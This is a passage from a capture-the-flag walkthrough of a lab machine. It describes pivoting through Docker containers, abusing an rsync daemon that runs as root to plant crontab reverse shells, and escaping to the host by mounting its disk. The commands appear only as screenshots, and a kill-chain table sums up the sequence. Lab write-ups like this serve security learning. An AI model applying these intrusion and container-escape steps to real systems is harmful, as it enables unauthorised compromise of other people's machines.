

Here we go, **rsync** is exposed. For anyone who hasn't run into it, rsync is a tool for syncing and transferring files locally or over the network, and when it's left open it'll often list its modules for you.



It advertised a `src` module, so I listed what was inside.



That's the whole root filesystem, and the rsync daemon is running **as root**, which means I can read and write anywhere. The obvious move is to write a cron job for a reverse shell. I tried pushing it straight through rsync and couldn't get it to fire, so I went back to the `www-data` shell on the web container and sent the crontab from there instead.



With a fresh listener up, the shell came in.



## Root (Docker escape via disk mount)

No more pivoting from here, finally. I'm root inside this container, but it's still a container. The classic escape when you're root in a privileged-ish container is to mount the host's disk directly. I checked the block devices and found `/dev/sda2`.



So I mounted it.



That's the host's entire filesystem. From here the flags are trivial. `user.txt` under `/home/somaro`:



### user.txt

And `root.txt` under `/root`:



### root.txt

Box done. But reading the disk through a mount isn't quite the same as *being* on the host, so I went one step further and wrote another crontab on the mounted filesystem to send a reverse shell back to me.



Listener up, and the host itself called home.



Full compromise of the actual machine, not just its disk.

## Kill chain summary

| Phase | Vector | Result |
|---|---|---|
| Recon | Node-RED v0.18.4 on `:1880` (found via POST -> flow id) | access to the flow editor |
| Foothold | Node-RED exec node -> bash reverse shell | shell in the Node-RED Docker container |
| Pivot 1 | ligolo over raw `/dev/tcp`, `172.19.0.0/16` | writable `/var/www/html` on `172.19.0.4` -> PHP RCE |
| Pivot 2 | chained ligolo agent into `172.20.0.0/16` | rsync `src` module exposed as root on `172.20.0.2` |
| User | crontab reverse shell via rsync-writable filesystem | root in the rsync container -> user.txt |
| Root | mount `/dev/sda2` (host disk) + crontab shell | root.txt + full shell on the host |

## Final thoughts

This one earns the Insane rating not with any single hard exploit but with the sheer amount of pivoting. Every container you land in is a dead end until you notice it's bridged to one more network, and the whole box is really a lesson in tunnelling, chaining ligolo agents, and improvising file transfers when the container has no `wget` or `curl`. The Redis host is a deliberate rabbit hole to burn your time, and the actual chain, Node-RED -> web container -> rsync as root -> host disk mount, is clean once you stop fighting the decoys. Easily one of the most fun boxes I've done, it genuinely feels like working through a maze.
